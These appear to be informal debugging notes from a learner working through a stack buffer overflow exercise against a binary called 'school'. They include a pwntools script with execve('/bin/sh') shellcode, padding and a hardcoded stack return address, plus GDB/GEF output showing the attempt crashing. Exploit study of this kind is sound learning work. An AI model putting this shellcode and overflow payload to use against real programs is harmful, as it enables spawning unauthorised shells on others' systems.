 ```
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdef8  →  0x00007fffffffe272  →  "SHELL=/usr/bin/zsh"
$r14   : 0x0               
$r15   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2d0  →  0x0000000000000000
```

I wonder if it's just sliding straight into the A's afterwards
Because it seems like the code is all there...

Like it crashes because rbp is fucked up or something

# New Day New Results
So NOW, when I run with gdb, my stack is filled with 0's
I swear I changed NOTHING
```python
def smallPld():
	code = b'\x48\x31\xF6\x56\x48\xBF\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x57\x54\x5F\x6A\x3B\x58\x99\x0F\x05'
	p = 40 - len(code)
	pad = b'A'*p
	addr = p64(0x7fffffffddb0)
	return code + pad + addr

def testPld():
	p =  process('/bin/bash')
	p.sendline('gdb ./school -q')
	p.sendline("break *0x0000000000400681")
	#p = process('./school')
	p.sendline("r")
	p.recvuntil("directions:")
	p.sendline(smallPld())
	# p.sendline(whyPLD())
	p.interactive()
```
Right before the `ret`:
```
     0x400676 <main+69>        call   0x4004d0 <printf@plt>
     0x40067b <main+74>        mov    eax, 0x0
     0x400680 <main+79>        leave  
 →   0x400681 <main+80>        ret    
   ↳  0x7fffffffddb0                  add    BYTE PTR [rax], al
      0x7fffffffddb2                  add    BYTE PTR [rax], al
      0x7fffffffddb4                  add    BYTE PTR [rax], al
      0x7fffffffddb6                  add    BYTE PTR [rax], al
      0x7fffffffddb8                  add    BYTE PTR [rax], al
      0x7fffffffddba                  add    BYTE PTR [rax], al
gef➤  $ x 0x7fffffffddb0
0x7fffffffddb0:    0x00000000
```
After continuing:
```
gef➤  $ c
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffddb0 in ?? ()
```
